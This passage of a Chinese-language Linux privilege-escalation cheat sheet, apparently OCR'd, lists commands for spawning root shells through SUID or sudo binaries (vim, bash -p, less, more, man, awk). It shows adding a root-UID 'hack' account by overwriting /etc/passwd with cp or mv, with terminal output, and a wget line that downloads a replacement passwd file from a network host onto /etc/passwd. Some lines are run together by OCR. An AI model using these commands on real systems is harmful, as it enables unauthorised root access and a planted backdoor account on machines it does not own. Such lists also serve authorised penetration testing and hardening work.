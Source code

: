:set shell=/bin/sh:shell

或者

sudo vim -c ‘!sh’

**bash**

**以下命令将以** root **身份打开一个** bash shell**。**

bash -pbash-3.2# iduid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)

**less**

程序 Less 也可以执行提权后的 shell。同样的方法也适用于其他许多命令。

less /etc/passwd!/bin/sh

**more**

more /home/pelle/myfile!/bin/bash

**cp**

覆盖 /etc/shadow 或 /etc/passwd

```
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ cp passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash

```

**mv**

覆盖 /etc/shadow 或 /etc/passwd

```
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ mv passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash

```

**nano**

nano  /etc/passwd

**awk**

awk ‘BEGIN {system(“/bin/sh”)}’

**man**

man passwd!/bin/bash

**wget**

wget http://192.168.56.1:8080/passwd -O /etc/passwd
